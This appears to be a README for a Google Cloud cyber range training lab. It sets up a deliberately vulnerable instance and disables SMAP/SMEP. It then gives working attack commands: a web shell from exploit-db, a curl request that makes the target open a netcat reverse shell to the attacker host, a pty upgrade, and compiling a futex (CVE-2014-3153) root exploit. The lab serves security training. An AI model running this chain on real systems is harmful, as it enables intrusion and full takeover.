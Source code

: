 # Google Cloud Platform Cyber Range 

## Artifacts

* [Terraform Build script](main.tf)
* [Terraform Variables file](terraform.tfvars)
* [Blue Ansible playbook](blue35370.yml)

## Instructions

1. Login to https://console.cloud.google.com/
2. Start the Cloud Shell
3. Clone this repo

```
git clone https://github.com/MikeStorrs/cyber.git
cd cyber
```

4. Use Terraform to Deploy Cyber Range 

```
terraform init
terraform apply
```

5. SSH to the blue instance `gcloud compute ssh blue-35370 --zone us-east4-a`
6. Accept SSH Key Generation and Set SSH Passphrase

```
Do you want to continue (Y/n)?  Y
Enter passphrase (empty for no passphrase): <PASSPHRASE>
```

7. Clone the meetup, cyber-range-target, and exploit-curation repos

```
git clone https://github.com/MikeStorrs/cyber.git
git clone https://github.com/redteam-project/cyber-range-target
git clone https://github.com/redteam-project/exploit-curation
```

8. Run Ansible script to make this instance vulnerable to Shellshock and libfutex

```
sudo ansible-playbook cyber/blue35370.yml > ~/ansible.out
```

9. Wait for the instance to reboot, then re-log in and remove Supervisor Mode Access Prevention and (NOTE NEED TO ADD nosmap / nosmep to Ansible Script)

```
gcloud compute ssh blue-35370 --zone us-east4-a
sudo grubby --args "nosmap nosmep" --update-kernel /boot/vmlinuz-3.10.0-123.1.2.el7.x86_64
sudo reboot
```

10. Now scan for exploitable vulnerabilities with `lem`

```
cd /
sudo pip install lem
sudo lem host assess --curation exploit-curation --kind stride --score 090000
sudo lem exploit copy --id 35146 --source exploit-database --destination /var/www/html --curation exploit-curation
sudo mv /var/www/html/exploit-database-35146.txt /var/www/html/index.php
```

11. Our remote code execution vulnerability is now ready to exploit. Now start two new Cloud Shell tabs and ssh to red-1 from both.

```
gcloud compute ssh red-1 --zone us-east4-a
```

12. In the first `red-1` shell, install Netcat and start a listener on port 4444.

```
nc -nlv 4444
```

13. In the second `red-1` shell, exploit the Shellshock vulnerability we staged in step 10. Replace the 10.150.0.3 IP address with your blue-35370 Internal IP and the 10.150.0.2 with your red-1 Internal IP.

```
curl -X GET 'http://10.150.0.3/index.php?cmd=nc%20-nv%2010.150.0.2%204444%20-e%20/bin/bash'
```

14. Now in the first `red-1` shell, you should have a reverse shell to `blue-35370`. Use this Python trick to get a tty and invoke bash.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

15. Create a virtualenv, install lem, and look for a privilege escalation vulnerability.

```
cd /tmp
virtualenv venv
source venv/bin/activate
pip install lem
git clone https://github.com/redteam-project/exploit-curation
lem host assess --curation exploit-curation --kind stride --score 000009
```

Note that there is currently a [bug](https://github.com/redteam-project/lem/issues/5) in lem that prevents the exploit that maps to CVE-2014-3153 from returning, but for purposes of this lab we know that it maps to EDBID 35370.

16. Stage the exploit and pop root. 

```
lem exploit copy --curation /tmp/exploit-curation --source exploit-database --id 35370 --destination /tmp/
mv exploit-database-35370.txt exploit.c
gcc -lpthread exploit.c -o exploit
./exploit
id -a
```
